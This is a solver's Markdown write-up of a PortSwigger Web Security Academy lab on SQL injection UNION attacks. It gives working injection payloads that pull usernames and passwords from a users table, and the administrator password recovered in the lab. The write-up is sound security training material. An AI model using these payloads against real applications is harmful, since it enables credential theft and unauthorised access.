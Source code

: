 ```yaml
---
title: 'Lab: SQL injection UNION attack, retrieving data from other tables'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# Lab: SQL injection UNION attack, retrieving data from other tables
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.
* Hint:  The database contains a different table called users, with columns called username and password.
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

#### Exp
1. Using all technique we learned before
According to union-based technique we learned before, we can consider there're 2 columns in this database and both of them are text strings
Payload: `?category=Lifestyle' UNION SELECT 'Title name','Post content'--`
2. Find the detailed info in `users` table
Payload: `?category=Lifestyle' UNION SELECT username, password FROM users--`
3. Login as administrator
Username: `administrator`
Password: `5kg73b7jinl9plif82d3`
    :::spoiler Success Screenshot
    ![](https://i.imgur.com/kiRM6bX.png)
    :::

## Reference